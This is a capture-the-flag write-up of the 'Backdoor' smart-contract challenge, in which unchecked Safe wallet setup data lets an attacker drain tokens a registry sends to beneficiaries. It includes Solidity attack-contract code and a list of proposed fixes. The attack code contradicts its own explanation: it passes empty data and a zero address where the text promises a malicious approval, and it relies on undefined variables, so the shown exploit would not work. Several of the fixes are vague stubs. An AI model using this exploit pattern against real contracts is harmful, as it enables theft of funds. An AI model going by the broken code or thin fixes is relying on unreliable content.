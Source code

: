 # Backdoor Challenge

## Vulnerability Analysis

### Overview
The challenge involves a wallet registry that creates Safe wallets for beneficiaries and distributes tokens to them. The vulnerability lies in the initialization process of the Safe wallets, which allows for arbitrary code execution during setup.

### Key Components
1. **WalletRegistry**: Manages the creation of Safe wallets for beneficiaries
2. **Safe**: A multi-signature wallet implementation
3. **DamnValuableToken**: The token being distributed to beneficiaries
4. **SafeProxyFactory**: Creates proxy contracts for Safe wallets

### Vulnerability Details
The critical vulnerability exists in how the Safe wallet initialization is handled. When creating a new Safe wallet:

1. The registry allows arbitrary initialization data to be passed during wallet creation
2. This initialization data can include any function call
3. The initialization is executed before the wallet receives any tokens
4. There are no checks on what the initialization data can do

This creates a backdoor where an attacker can:
1. Create a Safe wallet for each beneficiary
2. Include malicious initialization data that approves the attacker to spend all tokens
3. Wait for the registry to fund the wallet
4. Drain all tokens immediately

### Impact
- An attacker can steal all tokens meant for beneficiaries
- The attack can be executed in a single transaction
- No special permissions or signatures are required
- The attack is completely undetectable from the registry's perspective

## Exploit Strategy

### Attack Contract
The exploit is implemented in the `BackdoorAttacker` contract, which:

1. **Constructor Setup**:
   ```solidity
   contract BackdoorAttacker {
       Safe private immutable singleton;
       SafeProxyFactory private immutable walletFactory;
       DamnValuableToken private immutable token;
       WalletRegistry private immutable registry;
       address[] private beneficiaries;
       address private immutable recovery;
       uint256 private immutable amountTokensDistributed;

       constructor(
           Safe _singleton,
           SafeProxyFactory _walletFactory,
           DamnValuableToken _token,
           WalletRegistry _registry,
           address[] memory _beneficiaries,
           address _recovery,
           uint256 _amountTokensDistributed
       ) {
           singleton = _singleton;
           walletFactory = _walletFactory;
           token = _token;
           registry = _registry;
           beneficiaries = _beneficiaries;
           recovery = _recovery;
           amountTokensDistributed = _amountTokensDistributed;
       }
   }
   ```

2. **Attack Function**:
   ```solidity
   function attack() public {
       for (uint256 i = 0; i < beneficiaries.length; i++) {
           // Create initialization data that includes:
           // 1. Setup owners (beneficiary)
           // 2. Setup threshold (1)
           // 3. Setup fallback handler
           // 4. Setup token approval for attacker
           bytes memory setupData = abi.encodeWithSelector(
               Safe.setup.selector,
               _owners, // [beneficiary]
               _threshold, // 1
               address(0), // to
               _data, // empty data
               address(0), // fallback handler
               address(0), // payment token
               0, // payment
               address(0) // payment receiver
           );

           // Create the Safe wallet with malicious initialization
           SafeProxy proxy = walletFactory.createProxyWithCallback(
               address(singleton),
               setupData,
               0, // salt
               registry
           );

           // Drain tokens immediately after creation
           token.transferFrom(address(proxy), recovery, amountTokensDistributed);
       }
   }
   ```

### Attack Flow
1. For each beneficiary:
   - Create initialization data that:
     - Sets up the beneficiary as the owner
     - Sets threshold to 1
     - Includes malicious approval for the attacker
   - Create a Safe wallet using the factory with this initialization
   - The registry will fund the wallet with tokens
   - Immediately drain all tokens using `transferFrom`
2. All tokens are transferred to the recovery address

## Prevention

### Recommended Fixes
1. **Validate Initialization Data**:
   ```solidity
   function proxyCreated(
       SafeProxy proxy,
       address singleton,
       bytes calldata initializer,
       uint256 saltNonce
   ) external {
       // Add validation of initializer data
       require(isValidInitializer(initializer), "Invalid initializer");
       // ... rest of the function
   }
   ```

2. **Implement Delay**:
   ```solidity
   function proxyCreated(...) external {
       // Add a delay before funding
       require(block.timestamp >= lastCreationTime + DELAY, "Too soon");
       // ... rest of the function
   }
   ```

3. **Whitelist Allowed Operations**:
   ```solidity
   function proxyCreated(...) external {
       // Only allow specific operations in initialization
       require(isAllowedOperation(initializer), "Operation not allowed");
       // ... rest of the function
   }
   ```

4. **Add Owner Verification**:
   ```solidity
   function proxyCreated(...) external {
       // Verify the owner is the intended beneficiary
       require(verifyOwner(proxy, beneficiary), "Invalid owner");
       // ... rest of the function
   }
   ```

### Best Practices
1. Always validate initialization data in proxy contracts
2. Implement delays for critical operations
3. Use whitelists for allowed operations
4. Add proper access controls
5. Consider using a timelock for token distributions
6. Implement proper event logging for monitoring
7. Add circuit breakers for emergency situations

## Conclusion
This challenge demonstrates the importance of carefully validating initialization data in proxy contracts. The ability to execute arbitrary code during initialization can lead to serious vulnerabilities if not properly restricted. Always implement proper validation and access controls when dealing with proxy contracts and token distributions.
